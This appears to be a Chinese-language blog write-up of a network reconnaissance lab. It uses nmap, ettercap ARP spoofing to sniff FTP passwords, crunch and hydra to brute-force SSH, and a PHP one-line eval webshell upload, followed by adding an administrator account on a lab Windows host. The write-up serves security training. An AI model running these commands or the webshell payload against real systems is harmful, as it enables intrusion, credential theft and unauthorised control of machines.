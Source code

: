 ```yaml
---
date: 2021-03-25
title: 网络侦察实验
#subtitle: 
categories: [渗透]
tags: [渗透]
---
```


# 网络侦察实验

### 实验背景

随着时代的发展和网络的普及，在世界各国、各层次的计算机网络中，储存着大量公开资料和机密资料，由于网络漏洞的存在，为“黑客”入侵计算机网络系统获取机密资料提供了很多便利，这些资料引起了各国军事情报部门的重视，都大力开展利用计算机网络系统来获取情报资料的研究和尝试，这便是网络侦察。

网络侦查是指黑客为了更加有效地实施攻击而在攻击前或攻击过程中对目标主机的所有探测活动。网络侦查有时也被称为“踩点”。通常“踩点”包括以下内容：目标主机的域名、IP地址、操作系统类型、开放了哪些端口，以及这些端口后面运行着什么样的应用程序，这些应用程序有没有漏洞等。那么如何收集信息呢？可以利用与技术无关的“社会工程学”、搜索引擎以及扫描工具。

本实验旨在通过在企业复杂网络场景下的网络侦查应用实战，让学生深刻理解网络侦查的概念、特性和原理，掌握网络侦查相关技术，具备对网络进行侦查、渗透、敏感信息获取以及防网络侦查的技术能力，这对于学生的信息安全技术能力提升、国家网络空间安全战略实施，都有非常重要的意义。

### 实验任务

任务一 使用nmap、ettercap进行网络侦查和密码嗅探；
任务二 使用crunch、hydra暴力破解ssh服务登陆密码；
任务三 使用ssh登录目标机，获得敏感信息；
任务四 获取目标网站的webshell权限，控制目标机，获得敏感信息。

### 实验目的

* 了解网络侦查、信息收集、漏洞挖掘和利用的基本概念以及常用的信息收集和安全漏洞扫描工具，认知常见的网络侦查手段和企业网络安全漏洞。
* 掌握nmap工具的功能和操作方法，并能够分析检侧结果，能够运用这些工具解决目标网络信息探测、漏洞挖掘等常见的安全问题。
* 了解ettercap嗅探工具的基本功能，掌握常见的嗅探相关服务和应用的用户名和密码的方法。
* 了解crunch的基本功能，掌握利用crunch生成密码字典文件的方法。
* 了解hydra密码爆破工具的基本功能和使用方法，掌握常见的爆破服务和应用的用户名和密码的方法。
*  熟悉网站wenshell的概念，理解上传webshell、获取webshell权限的意义和方法，掌握获取webshell权限基础上控制目标机的方法。
* 通过nmap、ettercap、crunch和hydra等工具的学习和使用，能够融会贯通，掌握相关服务如ftp、web等漏洞挖掘、渗透、攻击和利用的原理和方法，掌握自主学习和实践主流企业网络扫描工具的功能、操作技巧、检测结果分析、网络侦查、漏洞挖掘的常用方法，具备企业复杂网络信息安全管理的职业能力和终身学习能力。

### 实验工具

+ Nmap（集成于kali linux）
+ ettercap（集成于kali linux）
+ crunch（集成于kali linux）
+ hydra（集成于kali linux）
+ Firefox（54.2.0）
+ Rdesktop

### 实验环境

| 操作系统    | IP地址      | 服务器角色 | 登录账户密码                              |
| ----------- | ----------- | ---------- | ----------------------------------------- |
| kali Linux  | 192.168.1.2 | 操作机     | 用户名：root；密码：Simplexue123          |
| CentOS7     | 192.168.1.3 | 目标机     | 用户名：root；密码：Simplexue123          |
| Windows2012 | 192.168.1.4 | 目标机     | 用户名：administrator；密码：Simplexue123 |

### 实验步骤

#### 任务一

1.扫描存活的主机

![image-20210325150711857](https://i.loli.net/2021/03/25/zPknCDVjpW3Jmlx.png)

2.使用嗅探工具对目标机的vsftpd服务进行嗅探。

通过设置监听网卡、主机、开启arp欺骗、启动嗅探等步骤来嗅探网络内的数据包，获取ftp用户名和密码。

![image-20210325152226044](https://i.loli.net/2021/03/25/zlgeGuf3kRQbNYM.png)

![image-20210325153309224](https://i.loli.net/2021/03/25/iZNCDe15ytPux4G.png)

#### 任务二

利用kali集成的crunch工具，生成密码字典文件。
使用hydra工具暴力破解ssh服务的登陆密码，以便完全控制目标主机系统。

使用命令`crunch 9 9 password.txt -p hacker+123456`生成密码

生成9位的数字字母组合，输出到password.txt文件

![image-20210325154745860](https://i.loli.net/2021/03/25/A9qhKSljfrw3dCU.png)

使用生成的密码字典进行爆破

```
hydra -L hacker.txt -P password.txt -t 1 -vV -e ns 192.168.1.3 ssh
```

破解得到密码：hacker123

#### 任务三

使用ssh登录目标机并获取key值，获得敏感信息

直接利用 爆破得到的密码进行登陆

ssh hacker@192.168.1.3

![image-20210325155633360](https://i.loli.net/2021/03/25/2nstiZqjApkCKHP.png)

![image-20210325155802866](https://i.loli.net/2021/03/25/Jmz6WETX9Q8jGPh.png)

ls -a命令列出文件：1.key

cat 1.key

ettercap

#### 任务四

获取目标网站的webshell权限，控制目标机，获得敏感信息

制作一句话木马和上传表单

```
<?php @eval($_POST['attack']) ?>
```

在浏览器另外一个页面快速打开`http://192.168.1.4/index.php?module=eventregistration&action=eventsCalendar`，获得时间戳，分析可知上传的文件名以时间戳+下划线+原文件名称来命名。

编写脚本并运行，获得上传的文件的URL路径。

![image-20210325183510613](https://i.loli.net/2021/03/25/RhfQO97VjGwEWia.png)

写入命令

`http://192.168.1.4/ tmp/1516041535_exp.php?cmd=system('' )`

添加新用户`net user hacker Beijing123 /add`

把hacker用户添加到管理员组，并远程连接目标机，远程连接的时候注意远程连接的端口。

以hacker用户（用户名：hacker、密码：Beijing123）身份登录目标机系统。

设置目标机C:\2.key文件的可读权限，并查看该文件的具体内容。
